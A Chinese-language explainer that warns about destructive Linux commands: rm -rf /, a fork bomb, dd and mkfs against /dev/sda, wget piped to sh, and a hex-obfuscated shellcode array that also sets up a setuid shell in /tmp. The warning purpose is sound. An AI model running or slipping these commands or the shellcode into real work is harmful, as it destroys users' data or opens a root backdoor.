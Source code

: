 ### 一 .删除 rm

```1，rm -rf Command
rm -rf Command
```
rm -rf命令是删除文件夹及其内容的最快方法之一。但是一点点错字或失误可能会导致不可恢复的系统损坏。与rm命令一起使用的一些选项是：

```shell
rm 命令用于删除文件。
rm -r  命令以递归方式删除文件夹，甚至是空文件夹。
rm -f  命令在不询问的情况下删除“只读文件”。
rm -rf /：强制删除根目录中的所有内容。
rm -rf *：强制删除当前目录/工作目录中的所有内容
rm -rf. ：强制删除当前文件夹和子文件夹。
rm -rf ~将删除主文件夹中的所有文件，
rm -rf .*将删除所有配置文件。
```

因此，执行rm -rf命令时要小心。如果通过'rm'命令来克服意外删除文件，可以在“.bashrc”文件中创建'rm'命令的别名为'rm -i'，它会要求确认每次删除。

### 二. 函数:()

```
:(){:|:&};:
```
以上实际上是一个fork炸弹。它通过定义一个名为'：'的函数来运行，该函数调用自身两次，一次在前台，一次在后台。它一直持续执行，直到系统冻结。
```
:(){:|:&};:
```

这短短的一行定义了一个shell函数，它可以创建自己的新副本。进程不断地复制自己，它的副本不断地复制自己，很快地占用了所有的CPU时间和内存。这会导致你的主机死机。这基本上是一种拒绝服务攻击。

### 三. 运行命令 command

```
command > /dev/sda
```

上面的命令将'command'的输出写入块/ dev / sda。它运行一个命令并将该命令的输出直接发送到第一个硬盘驱动器，将数据直接写入硬盘驱动器并损坏文件系统。

```
command - 运行命令（可以是任何命令。）
/ dev / sda - 将命令的输出直接写入硬盘设备。
```

块上的所有文件将被原始数据替换，从而导致块上的数据完全丢失。

### 四. 移动 mv

```
mv folder /dev/null
```

上面的命令会将'folder'移动到/ dev / null。在Linux ，dev / null或null是一个特殊文件，它丢弃写入它的所有数据并报告写操作成功。例如：

```
mv~ / dev / null - 将您的主目录移动到黑洞
```

mv - 将以下文件或目录移动到另一个位置。 

〜 - 表示整个主文件夹。 

/ dev / null - 将您的主文件夹移动到/ dev / null，销毁所有文件并删除原始副本。

### 五.下载wget

```
wget http://example.com/something -O- | sh
```

上面的命令从Web下载脚本并将其发送到sh，后者执行脚本的内容。

```
wget -下载一个文件。

http://example.com/something——从这个位置下载文件。

| 将wget命令(您下载的文件)的输出直接发送到另一个命令。

sh -将文件发送到sh命令，如果是bash脚本，sh命令就会执行它。
```

如果您不确定脚本是什么，或者您不信任其来源，那么这可能很危险 - 不要运行不受信任的脚本。

### 六.格式化  mkfs.ext3

```
6. mkfs.ext3 /dev/sda
```

上面的命令将格式化块'sda'，你肯定会知道执行上述命令后你的Block（硬盘驱动器）将是新的，全新的！没有任何数据，将您的系统置于不可恢复的阶段。

```
mkfs.ext3 /dev/sda
```

总而言之，此命令可以等同于在Windows上运行格式c：它将擦除第一个分区上的文件并用新文件系统替换它们。

### 七.清除 dd

```
7.dd if=/dev/random of=/dev/sda
```

上面的命令将清除块sda并将随机垃圾数据写入块。

```
dd if=/dev/random of=/dev/sda
```

当然！您的系统将处于不一致且不可恢复的阶段。

### 八.被隐藏的命令

以下命令只是上面的第一个命令（rm -rf）。这里的代码以十六进制隐藏，以便无知的用户可能被欺骗。在终端中运行以下代码将擦除根分区。

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

这种被隐藏的危险命令，通常无法被检测到。你必须知道你在做什么以及结果会是什么。不要编译或者运行来自未知来源的代码。
